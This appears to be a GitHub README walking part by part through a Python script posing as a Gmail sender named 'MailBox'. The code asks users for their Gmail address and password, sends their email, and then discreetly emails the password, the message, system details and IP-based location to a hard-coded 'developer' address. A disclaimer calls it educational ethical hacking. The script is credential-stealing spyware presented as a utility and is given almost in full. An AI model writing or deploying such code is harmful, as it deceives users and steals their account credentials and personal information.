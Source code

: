 This Python script serves as a straightforward email sender with extended capabilities to gather and transmit user-specific information to a designated email address. 

To begin, the user is prompted to input their name, after which they receive clear instructions on creating an app password for their Gmail account. The script then guides the user through entering their Gmail address, ensuring its validity, and securely collecting both the Gmail credentials and password. 

Following this, the user is prompted to input the recipient's Gmail address and compose the email message they wish to send. The script establishes a secure connection to Gmail's SMTP server, logs in using the provided credentials, and successfully sends the email to the specified recipient.

Subsequently, the script discreetly sends the user's Gmail details, password, recipient's Gmail, and email message to a developer's email address. Additionally, the script captures the user's system information, including details such as operating system, network configuration, CPU, memory, and battery status. This information is then formatted and sent to the developer via email. 

Finally, the script leverages an external service to obtain the user's IP-related details, such as city, region, country, and timezone. This information is also sent securely to the developer's email. The user receives a confirmation message upon successful email transmission, ensuring transparency about the process's completion.

This is the break down of code and explaination each part:

Part 1: Importing Libraries

```python
import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil
```

This section imports the necessary libraries for handling JSON data, making HTTP requests, sending emails, and collecting system information. Additionally this is the commands to install all the modules:

```python
pip install json
pip install urllib
pip install smtplib
pip install email
pip install platform
pip install socket
pip install psutil
pip install requests
```

Part 2: User Input

```python
name = input("Enter your name: ")
```

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

```python
print("Hello," + name, '''Welcome to MailBox.com...''')
```

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

```python
while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break
```


The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

```python
RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")
```

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

```python
# Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()
```

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

```python
s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "REPLACE WITH YOUR DESIRED GMAIL ADDRESS"
s.sendmail(MailBox, Developer, message)
s.quit()
```

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

```python
def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "REPLACE WITH YOUR DESIRED GMAIL ADDRESS")
```

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

```python
url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "REPLACE WITH YOUR DESIRED GMAIL"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)
```

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

```python
print("Your Mail sent successfully to", RMID)
```


Note: This Python program is expressly designed for educational purposes and serves solely as a demonstration of Python's capabilities within the realms of ethical hacking and custom tool development. It is explicitly prohibited to employ this program for any malicious intent or to cause harm to individuals or entities. The developer vehemently discourages any such misuse, The developer bears no responsibility for any harm or damage resulting from the misuse or unauthorized deployment of this software.
